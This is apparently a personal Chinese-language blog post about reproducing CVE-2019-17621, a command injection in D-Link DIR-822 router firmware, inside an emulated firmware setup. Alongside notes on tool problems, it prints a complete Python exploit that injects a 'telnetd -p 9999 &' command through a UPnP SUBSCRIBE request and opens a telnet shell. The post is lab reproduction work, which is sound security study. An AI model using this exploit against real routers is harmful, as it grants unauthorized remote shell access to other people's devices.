 ```yaml
---
title: CVE-2019-17621 dlink-822 命令注入漏洞复现
tags: [firmware analysis]
date: 2022-12-17 11:10:00
categories: [固件仿真]
excerpt: CVE-2019-17621 dlink-822 命令注入漏洞复现
---
```


#### 前言

第一次成功仿真一个固件并成功访问web并成功复现漏洞的exp ......

期间用 firmware-analysis-toolkit 和 firmware-analysis-plus （包括它的docker）在不同的操作系统（kali2020.4，kali2022.4）上来回实验了各种各样的固件，最终的成功目前看来只是一个偶然（因为遇到了太多我目前无法解释的问题）特此记录一下😪

#### 环境

kali2020.4 （同样的固件，同样版本的fap，但是在kali2022.4上运行这个固件时，会Internal Error 500（但起码能访问到这个ip......😅）

固件下载地址：<http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-822>

就这一个版本1.03B03

![](/img/固件仿真/CVE-2019-17621/1.jpg)

fap使用的是2.3版本 <https://github.com/liyansong2018/firmware-analysis-plus/tree/v2.3>

使用的exp来源 <https://www.jianshu.com/p/409106be87b7>

#### 运行

![](/img/固件仿真/CVE-2019-17621/2.jpg)

#### exp

```python
import socket
import os
from time import sleep
# Exploit By Miguel Mendez & Pablo Pollanco
def httpSUB(server, port, shell_file):
    print('\n[*] Connection {host}:{port}').format(host=server, port=port)
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
    request += "NT: upnp:event\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
    sleep(1)
    print('[*] Sending Payload')
    con.connect((socket.gethostbyname(server),port))
    con.send(request.encode())
    results = con.recv(4096)
    sleep(1)
    print('[*] Running Telnetd Service')
    sleep(1)
    print('[*] Opening Telnet Connection\n')
    sleep(2)
    os.system('telnet ' + str(server) + ' 9999')
serverInput = raw_input('IP Router: ')
portInput = 49152
httpSUB(serverInput, portInput, '`telnetd -p 9999 &`')
```

#### 坑

这是第一次仿真固件，一开始用的是firmware-analysis-toolkit（fat，<https://github.com/attify/firmware-analysis-toolkit>），首先它安装的时候就一堆问题。包括它的setup.sh里，要安装个lsb-core，但是apt找不到这个包，上网找了半天没找到一个能成功安装的，然后在他的issue里发现有人说这个不是必要的，可以删掉😅，然后setp.sh里还有个qt5base-dev的包，在kali上实际应该是qtbase5-dev😅，我不知道其他系统是啥样，还有一个坑是因为git  clone不稳定，我手动下载的zip包，但实际上这个clone是要recursive的😅，直接运行fat.py他是用pexpect去开启另一个进程，然后新启动的这个进程并不会把输出显示过来，看源码调试半天才发现是少文件，当时还很纳闷😅为啥会少（过于nc）

相对来说firmware-analysis-plus（fap，<https://github.com/liyansong2018/firmware-analysis-plus>）比较友好（和fat基本一样，只不过细节上做了一些修改），首先，其他项目的文件统一放在了库里（没有那个递归了😅）然后还做了一个docker，但是这个docker没有装jefferson，仿真不了jffs的文件系统，只能继续自己配环境😅。fat.py后面要加一个-q qemu-path的参数，否则network  interface列表会为空（nc如我还跑去人家issue底下问，还好人家没过几分钟就回复了😅）

然后exp部分一开始我用的这个帖子的exp ：<http://www.manongzj.com/blog/28-tkbcqqitdf.html>，跑不通，后来换成了前文用的exp，居然好使了。。。我没看出来这俩exp有啥区别，不想管了😅，第一次固件仿真到此结束，漏洞是啥原理暂时不想管了



